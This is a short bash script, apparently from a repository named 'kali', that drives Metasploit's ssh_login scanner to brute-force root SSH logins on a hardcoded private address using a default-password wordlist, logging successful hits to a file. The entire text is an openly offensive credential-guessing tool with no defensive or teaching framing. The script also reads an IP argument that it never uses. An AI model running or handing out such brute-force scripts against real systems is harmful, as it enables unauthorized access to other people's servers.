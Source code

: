 # kali
kali

#!/bin/bash
#set ip address from arguments
IP=$1
#echo $IP

#step 1
#use ssh_login scanner ,select session success and then write the information into demo.log
msfconsole -x "use auxiliary/scanner/ssh/ssh_login;\
set RHOSTS 192.168.31.5;\
set USERNAME root;\
set PASS_FILE /usr/share/wordlists/metasploit/http_default_pass.txt;\
run;\
exit -y;" | grep "\[+\]" >> demo.log

